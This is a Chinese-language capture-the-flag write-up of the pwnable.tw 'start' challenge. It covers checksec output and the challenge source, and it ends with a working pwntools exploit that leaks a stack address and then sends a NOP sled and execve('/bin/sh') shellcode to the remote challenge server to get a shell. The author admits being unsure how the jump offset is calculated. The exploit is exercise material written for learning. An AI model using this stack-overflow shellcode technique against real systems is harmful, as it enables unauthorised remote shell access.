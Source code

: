 pwnable.tw 学习 start

参考：

    http://www.jianshu.com/p/8c13e3ed9589
    http://dogewatch.github.io/2017/04/10/pwnable.tw-Part1/

# start 




利用思路：通过leak出esp地址，对esp之后写入shellcode就会执行，而且执行的shellcode满足小于32字节

做题步骤：

(1)先通过file命令查看x86还是x64

	file start
	start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

(2)checksec查看何种防护方式

	gdb start
	gdb-peda$ checksec
	CANARY    : disabled
	FORTIFY   : disabled
	NX        : ENABLED
	PIE       : disabled
	RELRO     : disabled

可以看到NX保护开了，但是我们实际在运行中，为什么NX保护会开呢？
但是最后的做法就是看checksec的源码

(3)int 80 中断方式执行代码

sys_write
sys_read
....

[http://syscalls.kernelgrok.com/](http://syscalls.kernelgrok.com/) 中断查询

(4)题目源码

	void _start(){
	  char buf[20] = 'Let's start the CTF:';
	  sys_write(1,buf,20);
	  sys_read(0,buf,60);
	}
	void _exit(){
	  sys_exit();
	}

利用思路：leak出地址，算出shellcode起始地址，然后跳转到shellcode执行

坑点：
checksec 显示NX，但是实际可以shellcode写栈后执行。shellcode在0x14后的位置，因为leak出来得地址是
esp+4的地址，只要加上20就可以调到shellcode，如何计算不是很清楚，可以多加点‘NOP’指令，就可以挂到
下面继续执行了。

(5)exploit：

	from pwn import *
	
	debug = 0
	
	if debug:
		s = process('./start')
		#context.terminal = ['gnome-terminal','-x','sh','c']
		gdb.attach(s,'b _start')
	else:
		s = remote('chall.pwnable.tw',10000)
	
	addr_1 = p32(0x08048087) # mov ecx,esp
	shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
	
	def leak():
		recv1 = s.recvuntil(':')
		print recv1
		payload = 'a'*20 + addr_1
		s.send(payload)
		print 'send :' + payload
		stack_addr = s.recv(4)
		print 'stack address is %x' % u32(stack_addr)
		return u32(stack_addr)
	
	def pwn(addr):
		payload = 'a'*20 + p32(addr+24)+'\x90'*10+shellcode
		s.send(payload)
		print 'send :' + payload
	
	addr_2 = leak()
	pwn(addr_2)
	s.interactive('\nshell#')

然后提交flag，ok

